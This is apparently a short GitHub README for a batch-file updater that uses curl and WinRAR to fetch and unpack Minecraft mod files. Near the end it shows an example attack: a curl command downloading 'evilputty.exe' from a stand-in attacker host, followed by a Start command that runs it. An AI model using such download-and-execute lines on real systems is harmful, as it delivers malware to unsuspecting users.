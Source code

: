 # MSDOSUpdater
Using Curl we can use MSDOS to update missing or outdated files, relating to cyber security it can be use as malicious code as well.

Updater.bat is the main file we use to update the files in this use we are using it for a Minecraft mod file update. modfolder.txt is the path where we want to upload/update our files.
Winrarpath.txt is where we configure our WinRar directory path so that our Updater.bat can use the unrar function to unpack the newer files into our mod folder path.

with the help of curl we can output a file from the url link:
curl.exe --output index.html --url google.com

this line will get the html code of google.com and download it.

In a cyber security stand point this code can also be abused and used in a malicious way, the attacker can code it so that it downloads viruses, worms, trojans, RATs and more. once downloaded they can execute
these files using the command Start example: 

curl.exe --output evilputty.exe --url www.attackersite.com/evilputty.exe


Start evilputty.exe

this knowledge is for educational purposes only please do not use this code for harm.
